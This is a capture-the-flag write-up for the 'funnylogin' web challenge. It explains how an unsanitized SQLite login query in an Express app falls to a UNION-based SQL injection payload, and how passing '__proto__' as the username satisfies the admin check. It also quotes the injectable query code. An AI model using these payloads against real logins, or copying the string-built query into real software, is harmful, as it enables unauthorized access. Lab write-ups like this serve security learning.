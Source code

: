 ```javascript

app.listen(PORT, () => console.log(`web/funnylogin listening on port ${PORT}`));
```

## Analysis
From the source code, we know that it is Express app and using SQLite3 database. <br>
First, it generates an array of 100,000 random users with unique usernames and random passwords. Then these users into the "users" table in the database. Selecting one user randomly to be an admin and marking them in the isAdmin object.
```javascript
const users = [...Array(100_000)].map(() => ({ user: `user-${crypto.randomUUID()}`, pass: crypto.randomBytes(8).toString("hex") }));
db.exec(`INSERT INTO users (id, username, password) VALUES ${users.map((u, i) => `(${i}, '${u.user}', '${u.pass}')`).join(", ")}`);
const isAdmin = {};
const newAdmin = users[Math.floor(Math.random() * users.length)];
isAdmin[newAdmin.user] = true;
```

To login as admin, we need sastisfy two conditions:<br>
1. Exists a user with the id get from the query
2. The user is an admin
```javascript
if (users[id] && isAdmin[user]) {
    return res.redirect("/?flag=" + encodeURIComponent(FLAG));
}
```

## Solution
Back to the query, we can see that the query is not sanitized. So we can use SQL injection to bypass the login and return any id.
```javascript
const query = `SELECT id FROM users WHERE username = '${user}' AND password = '${pass}';`;
```
We can use the following payload:
```
user=a&pass=a' UNION SELECT 1;--
```

To bypass `isAdmin[user]`, we can utilize that Javascript use bracket notation to access object properties. So if we pass an exsting property to `isAdmin`, it will return true. `isAdmin` inherits standard method from its prototype so we can access them through chain. We can use the following payload:
```
user=__proto__&pass=a' UNION SELECT 1;
```

Flag: dice{i_l0ve_java5cript!}
